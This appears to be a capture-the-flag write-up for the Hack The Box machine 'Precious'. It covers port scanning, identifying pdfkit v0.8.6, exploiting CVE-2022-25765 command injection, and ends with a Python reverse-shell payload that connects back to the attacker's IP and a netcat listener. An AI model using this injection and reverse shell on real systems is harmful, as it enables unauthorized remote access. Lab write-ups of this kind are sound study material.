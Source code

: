 # Precious

## Summary

* [Info Gathering](#info-gathering)

## Info Gathering
First thing let's scan for the open ports:
```
[vecio@vecio ~]$ nmap 10.10.11.189
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-26 17:07 CEST
Nmap scan report for 10.10.11.189
Host is up (0.051s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.84 seconds
```
We know that there are 2 services open: SSH service on the port 22 and an HTTP server on the default port 80.
We can check out the web server, so we add the IP address to the `/etc/hosts` file:
```
# Static table lookup for hostnames.
# See hosts(5) for details.
127.0.0.1	localhost
::1		localhost
127.0.1.1	vecio.localdomain	vecio

10.10.11.189	precious.htb
```
We can now access the web server on the browser using its domain or the IP address.

The only functionality the web page is to convert a web page into a PDF file.
We can test that out by starting a python web server and trying to get its PDF file.
```bash
python -m http.server
```
We can now enter our IP address followed by the port which the python web server has been opened: `http://10.10.16.79:8000/` and get its PDF file.
We can get more information about the PDF file by reading its metadata using the `Exiftool`, so `exiftool file.pdf`:
```
ExifTool Version Number         : 12.50
File Name                       : edlaxwm1d82couplf7vpkkm9b4nyht3g.pdf
Directory                       : .
File Size                       : 29 kB
File Modification Date/Time     : 2023:03:26 17:12:58+02:00
File Access Date/Time           : 2023:03:26 17:13:44+02:00
File Inode Change Date/Time     : 2023:03:26 17:12:58+02:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```
We can see that the file has been created by the `pdfkit v0.8.6` ruby package.
We can use Google to search some known vulnerabilities about this package.

## Exploiting
We find [CVE-2022-25765: Command Injection](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) which allows us to inject a command if the URL is not sanitized.
Let's understand how the vulnerability works: an application could be vulnerable if it tries to render a URL that contains query string parameters with user input:
```ruby
PDFKit.new("http://example.com/?name=#{params[:name]}").to_pdf
```
If the provided parameter happens to contain a URL encoded character and a shell command substitution string, it will be included in the command that PDFKit executes to render the PDF:
```ruby
PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").to_pdf
```
Calling `to_pdf` on the instance shows that the `sleep` command is indeed executing.
The `%20` is a URL-encoded space character, which allows the attacker to separate the injected command from the rest of the URL.
When PDFKit is used to generate a PDF from a URL, it first converts the URL into a command line argument string that is passed to a command line tool to generate the PDF.

So we can input the URL `http://10.10.16.79:8000/?name=%20\`sleep 5\`` to test the vulnerability and see that the operation takes 5 seconds to get the PDF file, so the website is vulnerable to this exploit.

## Reverse Shell
We can now execute a reverse shell script to get access to the server.
Let's start listening to connections on port `1234` using `Netcat`:
```
nc -lvnp 1234
```
now we can execute a python reverse shell using the exploit entering the following URL `http://10.10.16.79:8000/?name=%20\`export RHOST="10.10.16.79";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'\`` and get access to the server.
